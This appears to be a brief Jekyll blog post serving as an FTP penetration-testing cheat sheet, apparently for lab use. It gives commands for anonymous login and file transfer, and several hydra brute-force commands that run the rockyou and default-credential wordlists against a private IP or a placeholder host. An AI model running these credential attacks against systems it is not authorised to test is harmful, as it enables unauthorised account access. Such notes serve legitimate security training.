 ```yaml
---
layout: post
title: TestFtp
date: 2022-05-03 12:00:00 +0100
categories: [test,test2]
tags: [testTag]
published: true
---
```


### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

```
hydra -l joe -P /usr/share/wordlists/rockyou.txt 192.168.226.47 ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.226.47 ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```


